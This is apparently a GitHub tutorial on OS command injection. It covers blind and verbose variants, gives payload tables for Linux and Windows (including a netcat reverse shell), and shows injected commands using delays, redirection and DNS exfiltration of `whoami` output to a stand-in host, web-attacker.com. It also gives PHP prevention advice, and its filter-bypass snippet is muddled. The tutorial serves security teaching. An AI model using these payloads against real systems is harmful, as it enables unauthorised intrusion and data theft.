 # OS Command Injection
Command Injection is a vulnerability that occurs when an attacker manipulates input fields to inject malicious commands into a vulnerable application.
<br>
![image](https://github.com/PranjalBasak/Documentation/assets/66166653/02292dae-1dea-4246-ae57-294ec98a348d)

## Types of Command Injection

1. **In-band Command Injection:**
   - Consists of an attacker executing commands on the host operating system via a vulnerable application and receiving the response of the command in the application.

2. **Blind Command Injection:**
   - Consists of an attacker executing commands on the host operating system via a vulnerable application that does not return the output from the command within its HTTP response.


![image](https://github.com/PranjalBasak/Documentation/assets/66166653/e55cb0d4-9403-4d31-b1bc-4398c9c6714c)

## What's Blind Command Injection?
It's when command injection goes down, but you don't see any immediate output - like, crickets. No messages from the web app, nada.

- **Making It Show Up:**
  - To catch this sneaky stuff, throw in payloads causing delays, like ping and sleep commands. For instance, make the app hang for a bit with the ping command.

- **Force Output Like a Boss:**
  - Another trick is to use redirection operators (think ">"). Force the app to spill the beans by executing commands and redirecting the output to a file. Then, sneak a peek using a command like cat.

- **Messing Around with Curl:**
  - Test for command injection with the curl command. It lets you sling data to and from the app in your payload. Check this out - a simple curl payload for command injection testing:

```bash
curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami
```

## Detecting Verbose Command Injection

Detecting command injection this way is probably the easier one of the two. Verbose command injection happens when the app spills the beans, giving you feedback or output about what's going on or being executed.

For instance, when you run commands like ping or whoami, the web app spills the details right on its interface.

### Useful Payloads

I've got some handy payloads for both Linux and Windows in the tables below.

#### Linux

| Payload | Description |
|---------|-------------|
| whoami  | See what user the app is running under. |
| ls      | List the contents of the current directory. Hunt for config files, environment files (like tokens and app keys), and other juicy stuff. |
| ping    | Make the app hang. Great for testing blind command injection. |
| sleep   | Another one for testing blind command injection, especially when ping is MIA. |
| nc      | Netcat can spawn a reverse shell on the vulnerable app. Use it to navigate around the target machine for services, files, or potential privilege escalation. |

#### Windows

| Payload | Description |
|---------|-------------|
| whoami  | See what user the app is running under. |
| dir     | List the contents of the current directory. Dig for config files, environment files, and other valuable goodies. |
| ping    | Make the app hang. Useful for testing blind command injection. |
| timeout | Another app-freezing command. Handy for blind command injection tests if ping isn't around. |

| Purpose of command      | Linux            | Windows           |
|-------------------------|------------------|-------------------|
| Name of current user    | whoami           | whoami            |
| Operating system        | uname -a          | ver               |
| Network configuration    | ifconfig         | ipconfig /all     |
| Network connections     | netstat -an      | netstat -an       |
| Running processes        | ps -ef           | tasklist          |

## Blind OS Command Injection on Vulnerable Websites

### Overview

Many instances of OS command injection are blind vulnerabilities, meaning that the application doesn't display the command output in its HTTP responses. Despite this, blind vulnerabilities can still be exploited using various techniques.

### Example Scenario

Consider a website where users can submit feedback. The server-side application generates an email to an administrator using a command like:

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

Since the command output isn't in the application's responses, traditional echo payloads won't work. Alternative techniques are needed.

### Techniques for Detection and Exploitation

1. **Detecting with Time Delays:**
   - Use time delays triggered by an injected command.
   - Example: `& ping -c 10 127.0.0.1 &`

2. **Redirecting Output:**
   - Redirect command output to a retrievable file in the web root.
   - Example: `& whoami > /var/www/static/whoami.txt &`

3. **Out-of-Band (OAST) Interaction:**
   - Trigger an out-of-band network interaction.
   - Example: `& nslookup kgji2ohoyw.web-attacker.com &`

4. **Out-of-Band Data Exfiltration:**
   - Use DNS lookups to exfiltrate command output.
   - Example: `& nslookup \`whoami\`.kgji2ohoyw.web-attacker.com &`

### Injection Techniques

Use various shell metacharacters for OS command injection:

- Command separators (work on both systems): `&`, `&&`, `|`, `||`
- Unix-only separators: `;`, Newline (`\n`)
- Inline execution (Unix-only): `` `injected command` ``, `$(injected command)`

Considerations for special characters within quoted contexts in original commands.

### Prevention Measures

The most effective prevention is to avoid calling OS commands from application-layer code. If unavoidable:

- Perform strong input validation.
- Examples: Whitelisting permitted values, validating as a number, allowing only alphanumeric characters.
- Never attempt to sanitize input by escaping shell metacharacters; it's error-prone and easily bypassed.

**Note:** The provided examples and techniques are for educational purposes. Always adhere to ethical hacking practices and obtain proper authorization before testing on any system.

### Preventing Command Injection

#### Vulnerable Functions in PHP

In PHP, certain functions like `exec`, `passthru`, and `system` interact with the OS, potentially executing commands via shell. For example, in the snippet below, the app only accepts and processes numerical input, avoiding command execution:

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/36d52ee5-a8c5-4485-8d6b-24542d214fa4)


#### Input Sanitization

Sanitizing user input is key to preventing command injection. Specify accepted data formats, like allowing only numerical input or removing special characters such as > ,  & and /.:

```php
// Use filter_input to check if submitted data is a number
$input = filter_input(INPUT_POST, 'user_input', FILTER_VALIDATE_INT);

if ($input !== false) {
    // Valid numerical input, proceed
} else {
    // Invalid input, reject
}
```

#### Bypassing Filters

While applications use filters to restrict payloads, it's possible to bypass them. For instance, if an app strips out quotation marks, using their hexadecimal values can achieve the same result:

```php
// Example of bypassing filters using hexadecimal values
$userInput = str_replace('\x22', '"', $_POST['user_input']);

// Process userInput
```

Keep in mind the importance of thorough input validation and regularly update your defense mechanisms against evolving techniques.

Payload List: https://github.com/payloadbox/command-injection-payload-list
